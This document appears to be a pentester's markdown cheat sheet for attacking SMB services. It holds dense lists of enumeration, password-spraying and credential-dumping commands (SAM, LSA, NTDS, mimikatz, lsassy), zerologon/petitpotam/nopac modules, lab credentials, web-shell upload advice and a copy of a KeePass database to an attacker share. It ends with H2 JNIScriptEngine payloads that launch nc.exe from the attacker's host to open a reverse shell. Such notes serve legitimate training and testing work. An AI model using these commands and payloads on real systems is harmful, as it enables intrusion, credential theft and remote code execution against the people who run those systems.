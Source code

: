 ## SMB Checklist

```bash
enum4linux -a $ip
enum4linux -a -u "$dom\\$user" -p "$pass" $ip
enum4linux -a -M -l -d $ip 2>&1
enum4linux -a -u "" -p "" $ip && enum4linux -a -u "guest" -p "" $ip
enum4linux-ng $ip
nmap $ip -p 139,445 –script smb*
smbclient -L //$ip
smbclient -N -L //$ip
smbclient -L //$ip -N
smbclient -N //$ip/backup
smbclient -L //$ip/myshare -U anonymous
smbclient //$ip/transfer -N
smbclient -U '%' -N \\\\$ip\\share
smbclient -U 'guest' \\\\$ip\\share
smbclient -U null -N \\\\$ip\\share
smbclient -U '%' -N \\\\$ip\\share -m SMB2
smbclient -U '%' -N \\\\$ip\\share -m SMB3
smbclient -L \\$ip -U "" -N -p 12445
smbclient '//$ip/Sarge' -p 12445
proxychains -q smbclient //172.16.173.21/monitoring -U "relia.com\andrea"

smbclient.py $dom
smbclient -W WORKGROUP -U % -t 5 -L //$dom -g
smbclient -W WORKGROUP -U % -s /tmp/tmpm24idfat -t 5 -L //192.168.154.117 -g
smbclient.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@$ip
> shares
> use Users

nxc smb $ip -u 'a' -p '' --shares # Guest logon
nxc smb $ip  -u 'user' -p 'pass' -M spider_plus
nxc SMB $ip -u USER -p PASSWORD --spider C\$ --pattern txt
nxc smb $ip -u "V.Ventz" -p "HotelCalifornia194\!" -M spider_plus -o DOWNLOAD_FLAG=true MAX_FILE_SIZE=1000000000

rpcclient -N -U "" \\$ip
rpcclient -U “” $ip ///when asked enter empty password
rpcclient -U “” $ip -N
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo   //password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
nbtscan IP

smbmap -H $ip
smbmap -H $ip -u 'a' -p ''
smbmap -H $ip -u '' -p '' -d $dom
smbmap -H $ip -u '' -p '' -r 'IPC$'
```

#### Look up the SMB versions

Miss this everytime.

#### NXC

```bash
nxc smb $ip
nxc smb $ip -u $user -p $pass --shares
nxc smb $ip -u $user -p $pass -M spider_plus
nxc smb $ip -u $user -p $pass -M spider_plus -o READ_ONLY=False
nxc $ip -u $user -p $pass --sessions
nxc smb $ip -u $user -p $pass --disks
nxc smb $dc -u $user -p $pass --pass-pol
nxc smb $ip -u $user -p $pass
nxc smb $ip -u $user -H $hash
nxc smb $ip -u '' -p ''
nxc smb $ip -u $user user2 user3 -p Summer18
nxc smb $ip -u $user -p $pass1 $pass2 $pass3
nxc smb $ip -u /path/to/users.txt -p Summer18
nxc smb $ip -u $user -p /path/to/$passs.txt
nxc smb $ip -u users.txt -p Summer18 --continue-on-success
nxc smb $ip -u $user -p $pass --local-auth
nxc smb $ip -u $user -p $pass --sam
nxc smb $ip -u $user -p $pass --lsa
nxc smb $dc -u $user -p $pass --ntds #Via RPC
nxc smb $dc -u $user -p $pass --ntds vss #Via VSS
nxc smb $ip -u $user -p $pass -M lsassy
nxc smb $ip -u $user -p $pass -M nanodump
nxc smb $ip -u $user -p $pass -M mimikatz
nxc smb $ip -u $user -p $pass -M procdump
nxc ldap $dc -u $ip -p $pass -M laps -o computer=$ip
nxc $ip -u Administrator -p $pass -x whoami
nxc $ip -u Administrator -p $pass -X '$PSVersionTable'
nxc smb $ip -u $user -p $pass -M slinky -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $ip -u $user -p $pass -M scuffy -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $dc -u '' -p '' -M zerologon
nxc smb $dc -u '' -p '' -M petitpotam
nxc smb $dc -u $user -p $pass -M nopac
```
#### To recursively download

```bash
> prompt off
> recurse on
> mget *

> prompt off
> recurse on
> dir *

// smbmap
// crackmapexec
```

You can try putting payloads in SMBs as soon as you can, that way you don't have to worry about that method of client-side attacks.

If you can navigate to the web root, maybe wwwroot, you can upload a shell and try to access it through your browser.

#### Mounting SMB Shares

Instead of enumerating Windows shares with smbclient, you can mount shares on your local filesystem and enumerate in a familiar environment.
```bash
sudo mkdir /mnt/data
sudo mount -t cifs //123.123.123.123/Data /mnt/data
```

Note that Windows likes to store some files in UTF-16LE, while Linux likes UTF8. If you run into this problem, you'll need to convert in order to cat the files.

```bash
cat file | iconv -f UTF-16LE -t utf8
```

#### Notes

Using nxc smb will find you the domain name quickly.

Resource: https://www.netexec.wiki/smb-protocol/enumeration/enumerate-null-sessions

#### Create Samba (SMB) Share on Kali

To start an SMB share on a Kali Linux machine, you typically use Samba, a popular open-source        
software suite that provides file and print services to SMB/CIFS clients. Here's a quick guide:      

1. Install Samba:

```bash   
sudo apt update
sudo apt install samba
```

2. Configure Samba:

Edit the Samba configuration file:

```bash
sudo nano /etc/samba/smb.conf
```

Add your share definition at the end of the file. For example:        

```bash
[MyShare]
path = /path/to/your/share
available = yes
valid users = your_username
read only = no
browsable = yes              
public = yes
writable = yes
```

3. Add a Samba User:

Samba requires a Linux user to map to. If you haven't already, create a Linux user or use an existing one.
Then, add the user to Samba:

```bash
sudo smbpasswd -a your_username
sudo systemctl restart smbd smbd
```

4.  Verify the Share:

From a Windows machine, you can access the share using "\\kali_ip\MyShare".
From a Linux machine, use smbclient to access the share.

```bash
    "//kali_ip/MyShare -U your_username" 
```
Alternative:

Kali:

```bash
impacket-smbserver -smb2support newShare . -username test -password test
```

Windows:

```bash
PS C:\Users\jim\Documents> net use z: \\192.168.45.163\newShare /u:test test
PS C:\Users\jim\Documents> copy Database.kdbx z:\
```

You can also execute commands that lie on your Linux machine from a Windows one through SMB shares:

```bash
sudo smbserver.py -smb2support Share .

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/nc.exe -e cmd.exe 192.168.45.163 8082").getInputStream()).useDelimiter("\\Z").next()');
#or 
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/wicked.exe").getInputStream()).useDelimiter("\\Z").next()');
```